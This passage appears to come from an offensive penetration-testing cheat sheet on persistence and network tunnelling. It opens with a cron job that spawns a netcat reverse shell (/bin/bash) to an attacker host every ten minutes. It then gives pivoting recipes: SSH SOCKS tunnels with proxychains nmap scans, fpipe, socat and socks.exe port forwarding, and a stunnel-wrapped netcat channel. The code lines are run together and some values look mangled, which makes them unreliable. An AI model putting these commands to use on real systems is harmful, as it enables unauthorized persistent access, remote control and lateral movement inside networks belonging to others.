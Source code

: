 Configure a cron job to maintain access:



`crontab -e # Add the following line to run every 10 minutes 0-59/10 * * * * nc ip 777 -e /bin/bash`

### Tunnel

#### SSH Tunnel

Create an SSH tunnel:



`# Establish SSH tunnel ssh -D 8083 root@192.168.8.3  # Update proxychains.conf to use the tunnel vi /etc/proxychains.conf -> socks4 127.0.0.1 8083  # Use proxychains to scan through the tunnel proxychains nmap -sT -Pn 10.1.3.1`

#### Fpipe - Receiving Information from Port 1234 and Transferring to Port 80 (2.2.2.2)

Run fpipe to receive information from port 1234 and transfer it to port 80 on 2.2.2.2:



`fpipe.exe -l 1234 -r 80 2.2.2.2`

#### Socks.exe - Intranet Scanning in Socks Proxy

Configure socks.exe and proxychains for intranet scanning:



`# On redirector (1.1.1.1) socks.exe -i 1.1.1.1 -p 8C80  # Attacker: Modify /etc/proxychains.conf and scan through socks proxy proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2`

#### Socat - Receiving Information from Port 1234 and Transferring to Port 80 (2.2.2.2)

Use socat to receive information from port 1234 and transfer it to port 80 on 2.2.2.2:



`socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80`

#### Create SSH Without SSH Service

Run socat to create SSH without the SSH service:



`./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.10.10.11:22`

#### Stunnel - SSL Encapsulated in NC Tunnel (Windows & Linux)

Configure stunnel for an SSL-encapsulated NC tunnel:

On Attacker (Client):



`# Modify /stunnel.conf client = yes [netcat client] accept = 5555 connect = -Listening IP-:4444`
